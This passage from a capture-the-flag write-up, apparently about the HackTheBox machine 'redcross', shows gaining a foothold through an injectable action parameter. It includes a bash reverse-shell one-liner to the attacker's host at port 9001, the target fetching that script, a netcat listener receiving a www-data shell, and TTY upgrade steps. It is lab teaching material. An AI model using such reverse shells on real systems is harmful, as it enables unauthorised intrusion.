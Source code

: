 When I was about to give up I figured I'd give changing the action parameter a try.

```bash
10.10.10.113 - - [15/May/2024 00:44:40] code 404, message File not found
10.10.10.113 - - [15/May/2024 00:44:40] "GET /TEST HTTP/1.1" 404 -
```
It actually worked! Time to get a shell.

I went ahead and hosted a simple bash script with a python server.

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.4/9001 <&1'
```

```bash
10.10.10.113 - - [15/May/2024 00:48:17] "GET /rev.sh HTTP/1.1" 200 -
```

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.113] 37250
bash: cannot set terminal process group (894): Inappropriate ioctl for device
bash: no job control in this shell
www-data@redcross:/var/www/html/admin/pages$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Finally!!

## Enumeration and Escalation

A fully working shell is always priority for me.

```bash
www-data@redcross:/var/www/html/admin/pages$ ^Z
zsh: suspended  nc -lvnp 9001
kali@kali:~/HTB/redcross$ stty raw -echo; fg; reset         
[1]  + continued  nc -lvnp 9001

www-data@redcross:/var/www/html/admin/pages$ export TERM=xterm
www-data@redcross:/var/www/html/admin/pages$ stty rows 68 cols 252
```

The directory it drops us in has some interesting looking files.

```bash
www-data@redcross:/var/www/html/admin/pages$ ls -lah
total 36K
drwxr-xr-x 2 root root 4.0K Jun  9  2018 .
drwxr-xr-x 5 root root 4.0K Jun  9  2018 ..
-rw-r--r-- 1 root root 4.0K Jun  8  2018 actions.php
-rw-r--r-- 1 root root   70 Jun  6  2018 bottom.php
-rw-r--r-- 1 root root  899 Jun  7  2018 cpanel.php
-rw-r--r-- 1 root root 1.1K Jun  8  2018 firewall.php
-rw-r--r-- 1 root root  683 Jun  7  2018 header.php
-rw-r--r-- 1 root root  525 Jun  6  2018 login.php
-rw-r--r-- 1 root root 1.1K Jun  9  2018 users.php
```
